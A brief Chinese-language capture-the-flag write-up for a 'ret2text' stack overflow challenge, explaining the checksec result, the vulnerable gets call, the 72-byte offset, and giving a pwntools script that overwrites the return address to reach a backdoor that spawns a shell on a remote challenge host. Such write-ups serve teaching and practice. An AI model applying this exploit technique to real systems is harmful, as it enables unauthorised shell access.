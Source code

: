 ### ret2text

栈溢出题，先checksec一下,发现**NX**开启

![](../assets/ret2text-checksec.png)

然后观察IDA，发现**backdoor**函数中含有**system("/bin/sh")**，以及**vuln**函数通过gets读取数据，长度为**64**字节，64位程序，所以偏移位为**64+8=72**

![ret2text-backdoor](../assets/ret2text-backdoor.png)

![ret2text-vuln](../assets/ret2text-vuln.png)

编写脚本

```py
from pwn import *

r = remote("47.76.55.63",25996)

move = 0x40 + 8
payload = b"a"*move + p64(0x004011E5)

r.sendline(payload)
r.interactive()
```
